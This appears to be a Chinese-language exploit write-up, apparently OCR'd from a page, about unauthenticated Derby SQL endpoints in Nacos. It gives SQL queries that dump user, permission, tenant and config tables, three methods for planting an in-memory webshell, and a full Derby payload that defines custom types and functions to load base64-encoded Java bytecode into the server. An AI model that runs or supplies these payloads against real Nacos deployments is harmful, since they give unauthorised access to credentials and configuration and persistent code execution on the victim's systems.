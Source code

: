 SQL 语句如下：

```
select * from users
select * from permissions
select * from roles
select * from tenant_info
select * from tenant_capacity
select * from group_capacity
select * from config_tags_relation
select * from app_configdata_relation_pubs
select * from app_configdata_relation_subs
select * from app_list
select * from config_info_aggr
select * from config_info_tag
select * from config_info_beta
select * from his_config_info
select * from config_info
select * from sys.systables
```

由于 `/v1/cs/ops/derby` 和 `/v1/cs/ops/data/removal` 接口未进行鉴权，当默认单机部署 Nacos 使用 Derby 数据库作为内置数据源时，未经身份验证的攻击者可通过加载恶意 JAR 包 执行 SQL 语句实现任意命令执行。

### 内存马 - 方案一

远程加载 JAR 包。

### 内存马 - 方案二

方案二，本地写入 jar 包：

-   使用 SYSCS_EXPORT_QUERY_LOBS_TO_EXTFILE 写入 jar 包到指定目录。
-   创建 UDF 函数并执行。
-   删除 jar 包，卸载函数。

### 内存马 - 方案三

方案三，创建任意类型，加载字节码实现注入内存码。详情见：[Derby Reference Manual](https://db.apache.org/derby/docs/10.14/ref/)

---

Payload 如下：

```
create type DIYClass external name 'java.lang.Class' language java

create type DIYClassLoader external name 'java.lang.ClassLoader' language java

create function DIYbase64Decode(className VARCHAR(32672)) returns VARCHAR(32672) FOR BIT DATA external name 'org.springframework.util.Base64Utils.decodeFromString' language java parameter style java

create function DIYgetSystemClassLoader() returns typeClassLoader external name 'java.lang.ClassLoader.getSystemClassLoader' language java parameter style java

create function DIYdefineClass(className VARCHAR(32672),bytes VARCHAR(32672) FOR BIT DATA,loader typeClassLoader) returns typeClass external name 'org.springframework.cglib.core.ReflectUtils.defineClass(java.lang.String, byte[], java.lang.ClassLoader)' language java parameter style java

create table DIYtable(v DIYClass)

insert into DIYtable values (DIYdefineClass('{className}',DIYbase64Decode('{class}'),DIYgetSystemClassLoader()))
```
